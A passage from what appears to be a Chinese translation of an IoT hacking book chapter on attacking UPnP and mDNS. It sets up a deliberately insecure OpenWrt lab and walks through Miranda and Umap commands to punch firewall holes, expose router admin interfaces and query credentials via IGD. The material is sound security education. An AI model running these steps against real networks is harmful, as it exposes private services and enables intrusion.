# 利用零配置网络


*零配置网络* 是一组自动化分配网络地址、分发和解析主机名、发现网络服务的技术，无需手动配置或服务器。这些技术旨在局域网中运行，通常假设环境中的参与者已同意参与该服务，这一事实使得网络上的攻击者可以轻松利用这些技术。

IoT 系统常常使用零配置协议，使设备能够接入网络，而无需用户干预。在本章中，我们探讨了在三组零配置协议中常见的漏洞——通用即插即用（UPnP）、组播域名系统（mDNS）/域名系统服务发现（DNS-SD）和 Web 服务动态发现（WS-Discovery）——并讨论如何对依赖这些协议的 IoT 系统进行攻击。我们将绕过防火墙，伪装成网络打印机访问文档，伪造流量模拟 IP 摄像头等。

## 利用 UPnP

UPnP 网络协议集自动化了在网络中添加和配置设备及系统的过程。支持 UPnP 的设备可以动态加入网络，广播其名称和功能，并发现其他设备及其功能。例如，人们使用 UPnP 应用程序来轻松识别网络打印机、自动化家庭路由器上的端口映射，以及管理视频流服务等。

但是，这种自动化是有代价的，正如你在本节中将要了解的那样。我们将首先概述 UPnP，然后设置一个测试的 UPnP 服务器，并利用它打开防火墙中的漏洞。我们还将解释针对 UPnP 的其他攻击方式，以及如何结合不安全的 UPnP 实现与其他漏洞进行高影响攻击。

### UPnP 堆栈

UPnP 堆栈由六个层次组成：寻址、发现、描述、控制、事件和展示。

在 *寻址* 层，支持 UPnP 的系统会尝试通过 DHCP 获取一个 IP 地址。如果无法获得，它们会从 169.254.0.0/16 范围内自分配一个地址（RFC 3927），这个过程称为 *AutoIP*。

接下来是 *发现* 层，在该层，系统使用简单服务发现协议（SSDP）搜索网络中的其他设备。发现设备的方式有主动和被动两种。当使用主动方式时，支持 UPnP 的设备会向 UDP 端口 1900 上的多播地址 239.255.255.250 发送一个发现消息（称为 *M-SEARCH 请求*）。我们称这个请求为 HTTPU（即 HTTP over UDP），因为它包含一个类似于 HTTP 头部的头信息。M-SEARCH 请求如下所示：

```
M-SEARCH * HTTP/1.1 
ST: ssdp:all 
MX: 5 
MAN: ssdp:discover 
HOST: 239.255.255.250:1900
```

监听此请求的 UPnP 系统应回复一个 UDP 单播消息，宣布*描述*XML 文件的 HTTP 位置，该文件列出了设备支持的服务。（在第四章中，我们演示了如何连接到 IP 摄像头的自定义网络服务，该服务返回的信息类似于此类描述 XML 文件中的内容，暗示该设备可能支持 UPnP。）

在使用被动方法发现设备时，UPnP 支持的设备通过将 NOTIFY 消息发送到 UDP 端口 1900 上的多播地址 239.255.255.250，定期在网络上广播它们的服务。以下是该消息，类似于在主动发现时发送的响应：

```
NOTIFY * HTTP/1.1\r\n
HOST: 239.255.255.250:1900\r\n
CACHE-CONTROL: max-age=60\r\n
LOCATION: http://192.168.10.254:5000/rootDesc.xml\r\n
SERVER: OpenWRT/18.06-SNAPSHOT UPnP/1.1 MiniUPnPd/2.1\r\n
NT: urn:schemas-upnp-org:service:WANIPConnection:2\r\n
```

网络上任何感兴趣的参与者都可以监听这些发现消息并发送描述查询消息。在*描述*层中，UPnP 参与者可以了解更多关于设备的信息，包括其功能以及如何与之交互。每个 UPnP 配置文件的描述都可以在活动发现过程中接收到的响应消息的 LOCATION 字段值中找到，或者在被动发现过程中接收到的 NOTIFY 消息中找到。LOCATION 字段包含一个 URL，指向一个*描述 XML 文件*，该文件包含在控制和事件阶段中使用的 URL（将在下文描述）。

*控制*层可能是最重要的一层；它允许客户端使用描述文件中的 URL 向 UPnP 设备发送命令。客户端可以通过*简单对象访问协议*（*SOAP*）来实现这一点，SOAP 是一种使用 XML 通过 HTTP 传输的消息协议。设备通过`controlURL`端点发送 SOAP 请求，该端点在描述文件中的`<service>`标签内进行了描述。`<service>`标签的格式如下：

```
<service>
  <serviceType>urn:schemas-upnp-org:service:WANIPConnection:2</serviceType>
<serviceId>urn:upnp-org:serviceId:WANIPConn1</serviceId>
<SCPDURL>/WANIPCn.xml</SCPDURL>
1 <controlURL>/ctl/IPConn</controlURL>
2 <eventSubURL>/evt/IPConn</eventSubURL>
</service>
```

你可以看到`controlURL`。*事件*层通知已订阅特定`eventURL` 2 的客户端，该 URL 也在描述 XML 文件中的`service`标签内描述。这些事件 URL 与特定的状态变量相关联（也包含在描述 XML 文件中），用于建模服务在运行时的状态。在本节中，我们不会使用状态变量。

*展示*层提供了一个基于 HTML 的用户界面，用于控制设备并查看其状态，例如，UPnP 支持的摄像头或路由器的 Web 界面。

### 常见的 UPnP 漏洞

UPnP 有着长时间的错误实现和缺陷。首先，由于 UPnP 设计用于在局域网内部使用，因此该协议没有认证机制，这意味着网络上的任何人都可以滥用它。

已知 UPnP 堆栈对输入验证不严，这导致了诸如未经验证的 `NewInternalClient` 错误等漏洞。这个漏洞允许你使用任何类型的 IP 地址，无论是内部的还是外部的，作为设备端口转发规则中的 `NewInternalClient` 字段。这意味着攻击者可以将一个易受攻击的路由器变成代理。例如，假设你添加了一个端口转发规则，将 `NewInternalClient` 设置为 *sock-raw.org* 的 IP 地址，将 `NewInternalPort` 设置为 TCP 端口 80，将 `NewExternalPort` 设置为 6666。然后，通过探测路由器的外部 IP 地址的 6666 端口，你就可以让路由器探测 *sock-raw.org* 上的 Web 服务器，而你的 IP 地址不会出现在目标日志中。我们将在下一节中介绍这种攻击的变种。

同时，UPnP 堆栈有时包含内存损坏漏洞，这在最好的情况下可能导致远程拒绝服务攻击，而在最坏的情况下可能导致远程代码执行。例如，攻击者发现一些设备使用 SQL 查询来更新它们的内存规则，同时通过 UPnP 外部接受新规则，使它们容易受到 SQL 注入攻击。此外，由于 UPnP 依赖于 XML，配置不当的 XML 解析引擎可能会成为 *外部实体*（*XXE*）*攻击*的受害者。在这些攻击中，解析引擎处理包含对外部实体的引用的潜在恶意输入，从而泄露敏感信息或对系统造成其他影响。更糟糕的是，规范不鼓励但并未完全禁止在面向互联网的 WAN 接口上使用 UPnP。即使一些厂商遵循了这一建议，实施中的漏洞往往仍允许 WAN 请求通过。

最后但同样重要的是，设备通常不会记录 UPnP 请求，这意味着用户无法知道攻击者是否在积极利用它。即使设备支持 UPnP 日志记录，日志通常存储在设备的客户端，并且没有通过用户界面配置的选项。

### 通过防火墙打洞

让我们进行一种或许是最常见的 UPnP 攻击：通过防火墙打洞。换句话说，这种攻击将添加或修改防火墙配置中的规则，从而暴露一个本应受到保护的网络服务。通过这样做，我们将了解不同的 UPnP 层次，并更好地理解协议的工作原理。

#### 攻击原理

这个防火墙攻击依赖于通过 UPnP 实现的 *Internet Gateway Device*（*IGD*）协议的固有宽容性。IGD 在 *网络地址转换*（*NAT*）设置中映射端口。

几乎每个家庭路由器都使用 NAT，这是一种通过将 IP 地址重新映射到私有网络地址，使多个设备共享相同外部 IP 地址的系统。外部 IP 通常是互联网服务提供商分配给您的调制解调器或路由器的公共地址。私有 IP 地址可以是任何标准的 RFC 1918 范围：10.0.0.0–10.255.255.255（A 类）、172.16.0.0–172.31.255.255（B 类）或 192.168.0.0–192.168.255.255（C 类）。

尽管 NAT 对家庭解决方案很方便，并且节省了 IPv4 地址空间，但它确实存在一些灵活性问题。例如，当应用程序（如 BitTorrent 客户端）需要其他系统连接到其特定的公共端口，但又位于 NAT 设备后面时会发生什么？除非该端口在设备的面向互联网的网络上暴露，否则没有对等方能够连接。一种解决方案是让用户手动配置路由器上的端口转发。但这样会很不方便，尤其是当每个连接都需要更改端口时。此外，如果端口在路由器的端口转发设置中被静态配置，任何其他需要使用该特定端口的应用程序就无法使用。原因是外部端口映射已经与特定的内部端口和 IP 地址关联，因此必须为每个连接重新配置。

这时 IGD 就派上用场了。IGD 允许应用程序在路由器上动态添加一个临时的端口映射，并在一定时间内有效。它解决了两个问题：用户不需要手动配置端口转发，并且它允许每个连接使用不同的端口。

但是攻击者可以在配置不安全的 UPnP 设置中滥用 IGD。通常，位于 NAT 设备后面的系统应仅能在自己的端口上执行端口转发。问题在于，许多物联网设备，即使到今天，仍允许网络中的任何人添加其他系统的端口映射。这使得网络中的攻击者可以做出恶意行为，比如将路由器的管理界面暴露到互联网上。

#### 设置测试 UPnP 服务器

我们将首先在 OpenWrt 镜像上设置 MiniUPnP，这是 UPnP IGD 服务器的轻量级实现，这样我们就有了一个可供攻击的 UPnP 服务器。OpenWrt 是一个基于 Linux 的开源操作系统，专为嵌入式设备设计，主要用于网络路由器。如果您从 [`nostarch.com/practical-iot-hacking/`](https://nostarch.com/practical-iot-hacking/) 下载易受攻击的 OpenWrt 虚拟机，可以跳过此设置部分。

本书不涉及 OpenWrt 的安装过程，但你可以在 [`openwrt.org/docs/guide-user/virtualization/vmware`](https://openwrt.org/docs/guide-user/virtualization/vmware) 上找到相关的设置指南。将 OpenWrt/18.06 的快照转换为 VMware 兼容的镜像，并在本地实验室网络上使用 VMware Workstation 或 Player 运行它。你可以在 [`downloads.openwrt.org/releases/18.06.4/targets/x86/generic/openwrt-18.06.4-x86-generic-combined-ext4.img.gz`](https://downloads.openwrt.org/releases/18.06.4/targets/x86/generic/openwrt-18.06.4-x86-generic-combined-ext4.img.gz) 下载我们用于 OpenWrt 版本 18.06 的 x86 快照。

接下来，设置你的网络配置，这对清晰地演示攻击至关重要。我们在虚拟机的设置中配置了两个网络适配器：

+   其中一个是桥接到本地网络并对应于 eth0（LAN 接口）。在我们的案例中，我们静态配置它为 IP 地址 192.168.10.254，对应于我们的本地网络实验室。我们通过手动编辑 OpenWrt 虚拟机的 */etc/network/config* 文件来配置这个 IP 地址。根据你的本地网络配置调整此设置。

+   其中一个被配置为 VMware 的 NAT 接口，并对应于 eth1（WAN 接口）。它通过 DHCP 自动分配了 IP 地址 192.168.92.148。这个接口模拟了路由器的外部接口，或称 PPP 接口，该接口通常连接到互联网服务提供商，并具有公共 IP 地址。

如果你以前没有使用过 VMware，可以参考 [`www.vmware.com/support/ws45/doc/network_configure_ws.html`](https://www.vmware.com/support/ws45/doc/network_configure_ws.html) 的指南，帮助你为虚拟机设置额外的网络接口。虽然它提到的是 4.5 版本，但该指南适用于所有现代 VMware 实现。如果你在 macOS 上使用 VMware Fusion，可以参考 [`docs.vmware.com/en/VMware-Fusion/12/com.vmware.fusion.using.doc/GUID-E498672E-19DD-40DF-92D3-FC0078947958.html`](https://docs.vmware.com/en/VMware-Fusion/12/com.vmware.fusion.using.doc/GUID-E498672E-19DD-40DF-92D3-FC0078947958.html) 进行设置。在任何一种情况下，添加第二个网络适配器并将其设置为 NAT（在 Fusion 上称为“与我的 Mac 共享”），然后将第一个网络适配器修改为桥接模式（在 Fusion 上称为“桥接网络”）。

你可能希望配置 VMware 设置，使桥接模式仅应用于实际连接到本地网络的适配器。因为你有两个适配器，VMware 的自动桥接功能可能会尝试桥接到未连接的那个适配器。通常情况下，会有一个以太网适配器和一个 Wi-Fi 适配器，所以确保检查每个适配器连接的网络。

现在，OpenWrt 虚拟机的网络接口部分的*/etc/config/network*文件应如下所示：

```
config interface 'lan'
        option ifname 'eth0'
        option proto 'static'
        option ipaddr '192.168.10.254'
        option netmask '255.255.255.0'
        option ip6assign '60'
        option gateway '192.168.10.1'

config interface 'wan'
        option ifname 'eth1'
        option proto 'dhcp'

config interface 'wan6'
        option ifname 'eth1'
        option proto 'dhcpv6'
```

确保您的 OpenWrt 具有互联网连接，然后在 shell 中输入以下命令安装 MiniUPnP 服务器和 *luci-app-upnp*。`luci-app-upnp` 包允许您通过 Luci（OpenWrt 的默认 Web 界面）配置和显示 UPnP 设置：

```
# opkg update && opkg install miniupnpd luci-app-upnp
```

然后我们需要配置 MiniUPnPd。输入以下命令，使用 Vim 编辑该文件（或者使用您选择的文本编辑器）：

```
# vim /etc/init.d/miniupnpd
```

向下滚动，直到文件第二次提到 `config_load "upnpd"`（在 MiniUPnP 版本 2.1-1 中，位于第 134 行）。将设置更改为如下所示：

```
config_load "upnpd"
upnpd_write_bool enable_natpmp 1
upnpd_write_bool enable_upnp 1
upnpd_write_bool secure_mode 0
```

最重要的更改是禁用 `secure_mode`*.* 禁用此设置允许客户端将传入端口重定向到除自身以外的 IP 地址。默认情况下启用此设置，这意味着服务器会禁止攻击者添加将端口重定向到任何其他 IP 地址的映射。

`config_load "upnpd"` 命令还会从 */etc/config/upnpd* 文件中加载额外的设置，您应该将其更改为如下所示：

```
config upnpd 'config'
        option download '1024'
        option upload '512'
        option internal_iface 'lan'
        option external_iface 'wan' 1
        option port '5000'
        option upnp_lease_file '/var/run/miniupnpd.leases'
        option enabled '1' 2
        option uuid '125c09ed-65b0-425f-a263-d96199238a10'
        option secure_mode '0'
        option log_output '1'

config perm_rule
        option action 'allow'
        option ext_ports '1024-65535'
        option int_addr '0.0.0.0/0'
        option int_ports '0-65535'3
        option comment 'Allow all ports'
```

首先，您需要手动添加外部接口选项 1；否则，服务器将不允许端口重定向到 WAN 接口。第二，启用 *init* 脚本以启动 MiniUPnP 2。第三，允许将所有内部端口 3 的重定向，从 0 开始。默认情况下，MiniUPnPd 只允许将端口重定向到某些端口。我们删除了所有其他的 *perm_rules*。如果您按如下所示复制 */etc/config/upnpd* 文件，您就可以继续进行操作。

完成更改后，使用以下命令重启 MiniUPnP 守护进程：

```
# /etc/init.d/miniupnpd restart
```

在重启服务器后，您还需要重启 OpenWrt 防火墙。防火墙是 Linux 操作系统的一部分，OpenWrt 默认启用它。您可以通过浏览 Web 界面 [`192.168.10.254/cgi-bin/luci/admin/status/iptables/`](http://192.168.10.254/cgi-bin/luci/admin/status/iptables/%20) 并点击 **Restart Firewall**，或者在终端中输入以下命令来轻松完成：

```
# /etc/init.d/firewall restart
```

当前版本的 OpenWrt 更加安全，而我们故意将这个服务器设置为不安全，以便进行本次练习。然而，许多现有的物联网产品默认配置就是这样。

#### 防火墙打孔

在设置好我们的测试环境后，接下来我们通过利用 IGD 进行防火墙打孔攻击。我们将使用 IGD 的 `WANIPConnection` 子配置文件，它支持 `AddPortMapping` 和 `DeletePortMapping` 操作，分别用于添加和删除端口映射。我们将使用 `AddPortMapping` 命令，并通过 UPnP 测试工具 Miranda 进行测试，该工具在 Kali Linux 上预装。如果您没有预装 Miranda，可以通过 [`github.com/0x90/miranda-upnp/`](https://github.com/0x90/miranda-upnp/) 获取—请注意，您需要 Python 2 来运行它。Listing 6-1 使用 Miranda 对易受攻击的 OpenWrt 路由器进行防火墙打孔。

```
# miranda
upnp> **msearch**
upnp> **host list** 
upnp> **host get 0**
upnp> **host details 0** 
upnp> **host send 0 WANConnectionDevice WANIPConnection AddPortMapping**
       Set NewPortMappingDescription value to: **test**
       Set NewLeaseDuration value to: **0**
       Set NewInternalClient value to: **192.168.10.254**
       Set NewEnabled value to: **1**
       Set NewExternalPort value to: **5555**
       Set NewRemoteHost value to: 
       Set NewProtocol value to: **TCP**
       Set NewInternalPort value to: **80**
```

Listing 6-1：使用 Miranda 打开 OpenWrt 路由器上的防火墙孔

`msearch`命令向 UDP 端口 1900 的多播地址 239.255.255.250 发送一个 M-SEARCH *数据包，完成了如“UPnP 协议栈”第 119 页中所描述的主动发现阶段。你可以随时按 CTRL-C 停止等待更多的回复，当目标响应时你应该这样做。

主机 192.168.10.254 现在应该出现在`主机列表`中，这是工具内部跟踪的目标列表，并附有相关索引。将索引作为参数传递给`host get`命令来获取*rootDesc.xml*描述文件。一旦执行，`host details`应显示所有支持的 IGD 配置文件和子配置文件。在这种情况下，`WANIPConnection`应该在`WANConnectionDevice`下显示出来，作为我们目标的配置。

最后，我们向主机发送`AddPortMapping`命令，将外部端口 5555（随机选择）重定向到 Web 服务器的内部端口，从而将 Web 管理界面暴露给互联网。输入命令后，我们必须指定其参数。`NewPortMappingDescription`是一个字符串值，通常会显示在路由器的 UPnP 设置中用于映射。`NewLeaseDuration`设置端口映射的有效时间，值`0`表示无限时间。`NewEnabled`参数可以是`0`（表示不活跃）或`1`（表示活跃）。`NewInternalClient`是指与映射关联的内部主机的 IP 地址。`NewRemoteHost`通常为空，否则，它会将端口映射限制为特定的外部主机。`NewProtocol`可以是 TCP 或 UDP。`NewInternalValue`是`NewInternalClient`主机的端口，来自`NewExternalPort`的流量将被转发到该端口。

现在我们应该能够通过访问 OpenWrt 路由器的 Web 界面 *192.168.10.254/cgi/bin/luci/admin/services/upnp* 来查看新的端口映射（图 6-1）。



图 6-1：我们应该能在 Luci 界面中看到新的端口映射。

为了测试我们的攻击是否成功，让我们访问路由器的外部 IP 地址 192.168.92.148，端口是转发的 5555\. 记住，私有 Web 界面通常不应该通过面向公众的接口访问。图 6-2 展示了结果。



图 6-2：可访问的 Web 界面

在我们发送`AddPortMapping`命令后，私有 Web 界面变得可以通过外部接口的 5555 端口访问。

### 通过 WAN 接口滥用 UPnP

接下来，让我们通过 WAN 接口远程滥用 UPnP。这种策略可能允许外部攻击者造成一些损害，比如将 LAN 内部主机的端口转发或执行其他有用的 IGD 命令，例如自解释的`GetPassword`或`GetUserName`。你可以在有漏洞或配置不当的 UPnP 实现中执行此攻击。

为了执行这个攻击，我们将使用 Umap，这是一个专门为此目的编写的工具。

#### 攻击如何进行

作为安全预防措施，大多数设备通常不会接受通过 WAN 接口传输的 SSDP 数据包，但其中一些仍然可以通过开放的 SOAP 控制点接受 IGD 命令。这意味着攻击者可以直接从互联网与它们交互。

基于这个原因，Umap 跳过了 UPnP 堆栈的发现阶段（即设备通过 SSDP 发现网络中的其他设备的阶段），并尝试直接扫描 XML 描述文件。如果找到文件，它就会进入 UPnP 的控制步骤，并通过发送指向描述文件中 URL 的 SOAP 请求与设备交互。

图 6-3 展示了 Umap 扫描内部网络的流程图。



图 6-3：Umap 扫描主机的流程图

Umap 首先通过测试多种已知的 XML 文件位置（例如*/rootDesc.xml*或*/upnp/IGD.xml*）来尝试扫描 IGD 控制点。在成功找到一个之后，Umap 会尝试猜测内部 LAN 的 IP 区块。记住，你正在扫描外部（面向互联网的）IP 地址，所以 NAT 设备后的 IP 地址会有所不同。

接下来，Umap 会为每个常见端口发送一个 IGD 端口映射命令，将该端口转发到 WAN。然后它会尝试连接到该端口。如果端口关闭，它会发送一个 IGD 命令来删除端口映射。否则，它会报告端口已打开，并保持端口映射不变。默认情况下，它扫描以下常见端口（硬编码在`commonPorts`变量中，位于*umap.py*文件内）：

```
commonPorts = ['21','22','23','80','137','138','139','443','445','3389', '8080']
```

当然，你可以编辑`commonPorts`变量，并尝试转发其他端口。你可以通过运行以下 Nmap 命令找到最常用的 TCP 端口的一个很好的参考：

```
# nmap --top-ports 100 -v -oG –
Nmap 7.70 scan initiated Mon Jul  8 00:36:12 2019 as: nmap --top-ports 100 -v -oG -
# Ports scanned: TCP(100;7,9,13,21-23,25-26,37,53,79-81,88,106,110-111,113,119,135,139,143-144,179,199,389,427,443-445,465,513-515,543-544,548,554,587,631,646,873,990,993,995,1025-1029,1110,1433,1720,1723,1755,1900,2000-2001,2049,2121,2717,3000,3128,3306,3389,3986,4899,5000,5009,5051,5060,5101,5190,5357,5432,5631,5666,5800,5900,6000-6001,6646,7070,8000,8008-8009,8080-8081,8443,8888,9100,9999-10000,32768,49152-49157) UDP(0;) SCTP(0;) PROTOCOLS(0;)
```

#### 获取和使用 Umap

Umap 首次由 Daniel Garcia 在 Defcon 19 发布；你可以在工具作者的官方网站上找到它的最新版本：[`toor.do/umap-0.8.tar.gz`](https://toor.do/umap-0.8.tar.gz)。解压缩 tarball 文件后，你可能还需要安装 SOAPpy 和 iplib：

```
# apt-get install pip
# pip install SOAPpy
# pip install iplib
```

Umap 是用 Python 2 编写的，而 Python 2 已不再正式维护；因此，如果你的 Linux 发行版没有提供 Python 2 的`pip`包管理器，你需要手动从[`pypi.org/project/pip/#files`](https://pypi.org/project/pip/#files)下载它。下载最新版本的源代码，并按以下方式运行：

```
# tar -xzf pip-20.0.2.tar.gz
# cd pip-20.0.2
# python2.7 setup install
```

使用以下命令运行 Umap（将 IP 地址替换为目标的外部 IP 地址）：

```
# ./umap.py -c -i 74.207.225.18
```

一旦你运行它，Umap 将按照图 6-3 所示的流程图执行。即使设备没有公布 IGD 命令（意味着该命令不一定会作为`controlURL`出现在*description* XML 文件中），一些系统仍然会接受这些命令，因为存在 BUG 的 UPnP 实现。所以，你应该始终在适当的安全测试中尝试所有这些命令。

表 6-1：可能的 IGD 命令列表

| `SetConnectionType` | 设置特定的连接类型。 |
| --- | --- |
| `GetConnectionTypeInfo` | 获取当前连接类型及允许的连接类型值。 |
| `ConfigureConnection` | 发送此命令以在 WAN 设备上配置 PPP 连接，并将`ConnectionStatus`从`Unconfigured`更改为`Disconnected`。 |
| `RequestConnection` | 在已经定义配置的连接服务实例上发起连接。 |
| `RequestTermination` | 发送此命令到任何处于`Connected`、`Connecting`或`Authenticating`状态的连接实例，以将`ConnectionStatus`更改为`Disconnected`。 |
| `ForceTermination` | 发送此命令到任何处于`Connected`、`Connecting`、`Authenticating`、`PendingDisconnect`或`Disconnecting`状态的连接实例，以将`ConnectionStatus`更改为`Disconnected`。 |
| `SetAutoDisconnectTime` | 设置活动连接在断开前的时间（秒）。 |
| `SetIdleDisconnectTime` | 指定空闲时间（秒），连接在此时间后可以断开。 |
| `SetWarnDisconnectDelay` | 指定在连接终止前，向每个（潜在的）活动用户发出的警告时间（秒）。 |
| `GetStatusInfo` | 获取与连接状态相关的状态变量值。 |
| `GetLinkLayerMaxBitRates` | 获取连接的最大上行和下行比特率。 |
| `GetPPPEncryptionProtocol` | 获取链路层（PPP）加密协议。 |
| `GetPPPCompressionProtocol` | 获取链路层（PPP）压缩协议。 |
| `GetPPPAuthenticationProtocol` | 获取链路层（PPP）认证协议。 |
| `GetUserName` | 获取用于激活连接的用户名。 |
| `GetPassword` | 获取用于激活连接的密码。 |
| `GetAutoDisconnectTime` | 获取在活动连接自动断开后的时间（秒）。 |
| `GetIdleDisconnectTime` | 获取空闲时间（秒），连接在此时间后可以断开。 |
| `GetWarnDisconnectDelay` | 获取在连接终止前，向每个（潜在的）活动用户发出的警告时间（秒）。 |
| `GetNATRSIPStatus` | 获取此连接在网关上当前的 NAT 和领域特定 IP（RSIP）状态。 |
| `GetGenericPortMappingEntry` | 一次获取一个 NAT 端口映射条目。 |
| `GetSpecificPortMappingEntry` | 报告由`RemoteHost`、`ExternalPort`和`PortMappingProtocol`的唯一元组指定的静态端口映射。 |
| `AddPortMapping` | 创建新的端口映射或用相同的内部客户端覆盖现有映射。如果`ExternalPort`和`PortMappingProtocol`对已经映射到另一个内部客户端，则返回错误。 |
| `DeletePortMapping` | 删除先前实例化的端口映射。每删除一项条目，数组会被压缩，事件变量 `PortMappingNumberOfEntries` 会递减。 |
| `GetExternalIPAddress` | 检索此连接实例的外部 IP 地址值。 |

请注意，Umap 的最新公共版本（0.8）不会自动测试这些命令。你可以在官方规范中找到关于它们的更详细信息：[`upnp.org/specs/gw/UPnP-gw-WANPPPConnection-v1-Service.pdf/`](http://upnp.org/specs/gw/UPnP-gw-WANPPPConnection-v1-Service.pdf/)。

在 Umap 识别出一个暴露于互联网的 IGD 后，你可以使用 Miranda 手动测试这些命令。根据命令的不同，你应当收到不同的回复。例如，回到我们脆弱的 OpenWrt 路由器，并对其运行 Miranda，我们可以看到这些命令的部分输出：

```
upnp> **host send** **0** **WANConnectionDevice  WANIPv6FirewallControl  GetFirewallStatus**
InboundPinholeAllowed : 1
FirewallEnabled : 1
upnp> **host send** **0** **WANConnectionDevice WANIPConnection GetStatusInfo**
NewUptime : 10456
NewLastConnectionError : ERROR_NONE
NewConnectionStatus : Connected
```

但该工具可能并不会始终指示命令是否成功，因此请记得始终保持 Wireshark 等数据包分析工具处于活动状态，以便了解背后发生了什么。

请记住，运行 `host details` 会给你一个广告命令的长列表，但你仍然应该尝试测试它们中的所有命令。以下输出仅显示了我们之前配置的 OpenWrt 系统命令列表的第一部分：

```
upnp> **host details 0**
Host name:          [fd37:84e0:6d4f::1]:5000
UPNP XML File:      http://[fd37:84e0:6d4f::1]:5000/rootDesc.xml

Device information: 
    Device Name: InternetGatewayDevice
        Service Name: Device Protection
            controlURL: /ctl/DP
            eventSUbURL: /evt/DP
            serviceId: urn:upnp-org:serviceId:DeviceProtection1
            SCPDURL: /DP.xml
            fullName: urn:schemas-upnp-org:service:DeviceProtection:1
            ServiceActions:
 GetSupportedProtocols
                    ProtocolList
                        SupportedProtocols: 
                            dataType: string
                            sendEvents: N/A
                            allowedVallueList: []
                         direction: out
                SendSetupMessage       
                …
```

该输出仅包含长列表中一小部分广告的 UPnP 命令。

### 其他 UPnP 攻击

你还可以尝试对 UPnP 进行其他攻击。例如，你可以利用路由器 Web 界面上的预认证 XSS 漏洞，利用 UPnP 的端口转发功能进行攻击。这种攻击即使路由器阻止 WAN 请求，也能远程工作。为了做到这一点，你首先需要通过社交工程让用户访问一个托管恶意 JavaScript 负载的网页，该负载包含 XSS。XSS 漏洞将使脆弱的路由器与用户处于相同的局域网内，这样你就可以通过 UPnP 服务向路由器发送命令。这些命令以特制的 XML 请求的形式，嵌入在一个 XMLHttpRequest 对象内，可以迫使路由器将 LAN 内的端口转发到互联网。

## 利用 mDNS 和 DNS-SD

*多播 DNS* (*mDNS*) 是一种零配置协议，在没有传统单播 DNS 服务器的情况下，允许你在本地网络上执行类似 DNS 的操作。该协议使用与 DNS 相同的 API、数据包格式和操作语义，允许你在本地网络上解析域名。*DNS 服务发现* (*DNS-SD*) 是一种协议，允许客户端通过标准 DNS 查询在某个域中发现一组命名的服务实例（例如 *test._ipps._tcp.local* 或 *linux._ssh._tcp.local*）。DNS-SD 通常与 mDNS 一起使用，但并不依赖于 mDNS。它们被许多物联网设备使用，如网络打印机、Apple TV、Google Chromecast、网络附加存储（NAS）设备和摄像头。大多数现代操作系统都支持它们。

两种协议都在同一个*广播*域内操作，这意味着设备共享相同的*数据链路层*，也称为本地链接或计算机网络开放系统互联（OSI）模型中的第二层。这意味着消息不会通过路由器，路由器工作在第三层。设备必须连接到相同的以太网中继器或网络交换机，才能监听并回复这些多播消息。

本地链接协议可能引入漏洞，原因有二。首先，尽管你通常会在本地链接中遇到这些协议，但本地网络不一定是一个可信的、合作的参与者网络。复杂的网络环境往往缺乏适当的分段，使得攻击者可以从网络的一部分转移到另一部分（例如，通过攻破路由器）。此外，企业环境中常常采用自带设备（BYOD）政策，允许员工在这些网络中使用个人设备。在公共网络中，情况更糟，例如在机场或咖啡馆的网络中。其次，这些服务的不安全实现可能允许攻击者远程利用它们，完全绕过本地链接的隔离。

本节将讨论如何在物联网生态系统中滥用这两种协议。你可以进行侦察、中间人攻击、拒绝服务攻击、单播 DNS 缓存中毒等攻击！

### mDNS 的工作原理

设备在本地网络缺少传统的单播 DNS 服务器时使用 mDNS。为了通过 mDNS 解析本地地址的域名，设备将一个以*.local*结尾的域名 DNS 查询发送到多播地址 224.0.0.251（对于 IPv4）或 FF02::FB（对于 IPv6）。你也可以使用 mDNS 解析全局域名（非*.local*的域名），但 mDNS 实现通常默认禁用此行为。mDNS 请求和响应使用 UDP，并且端口 5353 既是源端口也是目标端口。

每当 mDNS 响应者的连接性发生变化时，它必须执行两个活动：*探测*和*公告*。在首先进行的探测过程中，主机使用查询类型`"ANY"`（对应 mDNS 数据包中的 QTYPE 字段值 255）在本地网络上查询，检查它想要发布的记录是否已在使用。如果记录尚未被使用，主机就会通过发送未请求的 mDNS 响应到网络来*公告*其新注册的记录（这些记录包含在数据包的 Answer 部分）。

mDNS 响应包含多个重要标志，其中包括一个生存时间（TTL）值，表示记录有效的秒数。发送 `TTL=0` 的响应意味着应该清除相应的记录。另一个重要标志是 QU 位，它表示查询是否为单播查询。如果 QU 位没有被设置，数据包就是多播查询（QM）。因为有可能在本地链路之外接收到单播查询，安全的 mDNS 实现应始终检查数据包中的源地址是否与本地子网地址范围匹配。

### DNS-SD 的工作原理

